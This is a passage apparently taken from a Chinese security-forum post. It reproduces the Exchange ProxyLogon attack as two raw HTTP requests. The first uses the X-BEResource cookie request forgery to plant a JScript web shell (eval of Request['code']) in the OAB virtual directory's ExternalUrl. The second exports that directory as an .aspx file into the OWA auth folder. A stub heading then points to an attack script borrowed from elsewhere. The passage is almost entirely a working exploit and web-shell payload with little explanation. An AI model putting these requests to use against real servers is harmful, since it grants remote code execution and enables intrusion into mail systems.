 ![](https://shs3.b.qianxin.com/attack_forum/2023/03/attach-ec5a8c5b16c01bdea6722e3979e025fcd1df0f40.png)

![img](https://shs3.b.qianxin.com/attack_forum/2023/03/attach-cdc108b68ff56c288b9abb08d626826db4e92d20.png)

```http
POST /ecp/iey8.js HTTP/1.1
Host: 192.168.0.16
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.190 Safari/537.36 
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Cookie: X-BEResource=@win-v2jneuvoljv.test.com:444/ecp/DDI/DDIService.svc/GetObject?schema=VirtualDirectory&msExchEcpCanary=AQB_nzZ3TkaV7UmDQbbI4GBeZYlBt9oIdPNrql9tKVyzP6vDQRsOmEkxlP1NDQK1d5dAhz17bCI.#~1; ASP.NET_SessionId=2c6b26f5-6662-4e85-a8cb-44e7851baea2; msExchEcpCanary=AQB_nzZ3TkaV7UmDQbbI4GBeZYlBt9oIdPNrql9tKVyzP6vDQRsOmEkxlP1NDQK1d5dAhz17bCI.
msExchLogonMailbox: S-1-5-20
Content-Type: application/json; charset=utf-8
Content-Length: 399

{"identity":{"__type":"Identity:ECP","DisplayName":"OAB (Default Web Site)","RawIdentity":"8bb65fea-5a07-4d88-ac1b-bc9de2740cd9"},"properties":{"Parameters":{"__type":"JsonDictionaryOfanyType:#Microsoft.Exchange.Management.ControlPanel","ExternalUrl":"http://ffff/#<script language=\"JScript\" runat=\"server\"> function Page_Load(){/**/eval(Request[\"code\"],\"unsafe\");}</script>"}}}
```

```http
POST /ecp/iey8.js HTTP/1.1
Host: 192.168.0.16
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.190 Safari/537.36 
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Cookie: X-BEResource=@win-v2jneuvoljv.test.com:444/ecp/DDI/DDIService.svc/GetObject?schema=VirtualDirectory&msExchEcpCanary=AQB_nzZ3TkaV7UmDQbbI4GBeZYlBt9oIdPNrql9tKVyzP6vDQRsOmEkxlP1NDQK1d5dAhz17bCI.#~1; ASP.NET_SessionId=2c6b26f5-6662-4e85-a8cb-44e7851baea2; msExchEcpCanary=AQB_nzZ3TkaV7UmDQbbI4GBeZYlBt9oIdPNrql9tKVyzP6vDQRsOmEkxlP1NDQK1d5dAhz17bCI.
msExchLogonMailbox: S-1-5-20
Content-Type: application/json; charset=utf-8
Content-Length: 399

{"identity": {"__type": "Identity:ECP", "DisplayName": "OAB (Default Web Site)", "RawIdentity": "73fff9ed-d8f5-484e-9328-5b76048abdb2"}, "properties": {"Parameters": {"__type": "JsonDictionaryOfanyType:#Microsoft.Exchange.Management.ControlPanel", "FilePathName": "\\\\127.0.0.1\\c$\\Program Files\\Microsoft\\Exchange Server\\V15\\FrontEnd\\HttpProxy\\owa\\auth\\BF2DmInPbRqNlrwT4CXo.aspx"}}}
```

攻击脚本
----

借用网上的exp
